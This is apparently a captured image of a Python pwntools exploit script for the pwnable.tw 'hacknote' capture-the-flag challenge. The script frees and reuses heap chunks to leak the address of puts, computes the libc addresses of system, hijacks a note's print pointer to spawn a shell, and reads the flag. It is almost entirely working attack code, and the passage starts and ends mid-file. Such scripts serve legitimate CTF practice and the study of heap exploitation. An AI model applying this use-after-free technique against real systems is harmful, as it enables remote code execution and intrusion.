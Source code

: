```python
def show_note(p, idx):
    p.sendafter("Your choice :", str(3))
    p.sendafter("Index :", str(idx))
    log.info("show note {0}".format(idx))

def exp(ip = None, port = None):
    global use_gdb
    remote_run = False
    flag = None
    if ip and port:
        p = remote(ip, port)
        use_gdb = False
        remote_run = True
        libc = ELF("./hacknote/libc_32.so.6")
    else:
        #p=process(target, env={"LD_PRELOAD":"./libc-2.23.so"})
        p=process(target)
        libc = ELF("./libc-2.23.so")
    if use_gdb:
        gdb.attach(p)
        pause()

    sub_804862B = 0x804862B
    puts_got = elf.got['puts']
    # malloc 2 chunk, size is 8
    add_note(p, 20, "hello")
    add_note(p, 20, "hello")
    # free chunk to fastbin
    del_note(p, 0)
    del_note(p, 1)
    # reuse fastbin chunk, size is 8
    payload = p32(sub_804862B) + p32(puts_got)
    add_note(p, 8, payload)
    # leak puts libc addr
    show_note(p, 0)
    puts_addr = u32(p.recvn(4))
    libc_base_addr = puts_addr - libc.symbols['puts']
    libc_system_addr = libc_base_addr + libc.symbols['system']

    log.info("puts addr is : {0:x}".format(puts_addr))
    log.info("libc base addr is : {0:x}".format(libc_base_addr))
    log.info("libc system addr is : {0:x}".format(libc_system_addr))
    log.info("system(\"/bin/sh\")")
    del_note(p, 2)
    payload = p32(libc_system_addr) + b' ;sh'
    add_note(p, 8, payload)
    show_note(p, 0)

    p.interactive()
    p.recvuntil(b'\n')
    if remote_run:
        p.sendline('cat /home/hacknote/flag')
        flag = p.recvuntil(b'\n')
    else:
        p.interactive()

    log.info(flag)

if __name__ == "__main__":
    ip, port = None, None
    remote_str = None
    remote_str = 'chall.pwnable.tw:10102'

```